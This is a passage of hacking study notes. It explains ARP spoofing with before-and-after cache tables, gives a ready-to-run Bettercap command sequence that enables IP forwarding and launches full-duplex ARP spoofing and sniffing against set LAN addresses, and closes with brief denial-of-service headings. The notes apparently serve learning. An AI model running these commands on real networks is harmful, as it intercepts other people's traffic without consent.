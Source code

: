 | IP             | MAC               | Device                 |
| -------------- | ----------------- | ---------------------- |
| 192.168.101.5  | aa:aa:aa:aa:aa:aa | A                      |
| 192.168.101.10 | dd:dd:dd:dd:dd:dd | Fake B (Actual Hacker) |
| 192.168.101.20 | dd:dd:dd:dd:dd:dd | Hacker                 |
- Device B would be tricked to think that:

| IP             | MAC               | Device                 |
| -------------- | ----------------- | ---------------------- |
| 192.168.101.5  | dd:dd:dd:dd:dd:dd | Fake A (Actual Hacker) |
| 192.168.101.10 | bb:bb:bb:bb:bb:bb | B                      |
| 192.168.101.20 | dd:dd:dd:dd:dd:dd | Hacker                 |

So when A sends to B it send to the hacker and when B sends to A it sends to the hacker.

---
## Bettercap

```bash

net.probe on
Net.recon on


echo 1 > /proc/sys/net/ipv4/ip_forward
echo 0 > /proc/sys/net/ipv4/conf/all/send_redirection

bettercap -eval "set arp.spoof.targets 192.168.0.108 192.168.0.1; set arp.spoof.fullduplex true; set arp.spoof.interval 10; arp.spoof on; net.sniff on"

```

---

# Denial of Service

## Volume Based

Brute forcing, overwhelming badnwidth with UDP, ICMP, and spoofed-packets.

## Protocol Based

Exploits a vulnerability in protocols.

## Application Based

